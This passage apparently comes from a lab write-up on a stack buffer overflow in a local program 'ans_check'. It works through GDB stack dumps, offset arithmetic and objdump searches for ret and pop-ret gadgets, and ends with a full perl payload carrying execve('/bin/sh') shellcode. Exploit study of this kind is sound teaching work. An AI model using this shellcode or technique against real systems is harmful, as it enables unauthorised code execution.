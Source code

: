 0xffffd680:&nbsp;&nbsp;&nbsp;&nbsp;0x00000002&nbsp;&nbsp;&nbsp;&nbsp;0xffffd7cc&nbsp;&nbsp;&nbsp;&nbsp;<u><b>0xffffd7f5</b></u>&nbsp;&nbsp;&nbsp;&nbsp;0x00000000&nbsp;<b>(higher address of our input string)</b><br>
......<br>
0xffffd7f0:&nbsp;&nbsp;&nbsp;&nbsp;0x366b6365&nbsp;&nbsp;&nbsp;&nbsp;0x<u><b>736574</b></u>00&nbsp;&nbsp;&nbsp;&nbsp;0x485300<u><b>74</b></u>&nbsp;&nbsp;&nbsp;&nbsp;0x3d4c4c45&nbsp;<b>("test")</b><br>
</p>

We should notice that the offset between the start address of <code>ans_buf</code> and the higher address of our input string "test" (inside the stack frame of <code>main()</code>) is <code>0xffffd688 - 0xffffd58a = 0xfe = 254</code> bytes.

### Construct the Payload

Next, let's find out the addresses of <code>ret</code> and <code>pop-ret</code> using <code>objdump</code>:
```assembly
804935d:       c3                      ret
```

```assembly
$ objdump -D ans_check | grep -B3 ret | grep -A1 pop
 8049022:       5b                      pop    %ebx
 8049023:       c3                      ret    
--
 8049358:       5b                      pop    %ebx
 8049359:       5d                      pop    %ebp
 804935a:       8d 61 fc                lea    -0x4(%ecx),%esp
--
 80493c1:       5e                      pop    %esi
 80493c2:       5f                      pop    %edi
 80493c3:       5d                      pop    %ebp
 80493c4:       c3                      ret    
--
 80493f2:       5b                      pop    %ebx
 80493f3:       c3                      ret
```

We shall choose one <code>pop</code> instruction that uses <code>%ebx</code>; popping to other registers like <code>%edi</code> or <code>%ebp</code> can have other effects.

Now, we have already obtained the addresses of <code>ret</code> instruction as well as the <code>pop-ret</code> instruction. We would like the length of our payload to be $250$ bytes so that the address four-byte ahead of the address of the input string in <code>main()</code> can be overwritten by the address of the <code>pop-ret</code> instruction. Moreover, since we want our exploit to be executed at a four-byte aligned memory address and the buffer start at the middle of a four-byte memory address, we need another 2 bytes of NOPS padded in our payload. The constructed payload is shown below:

```bash
$ ./ans_check $(perl -e 'print "\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80", "\x5d\x93\x04\x08"x54, "\x22\x90\x04\x08"')
```
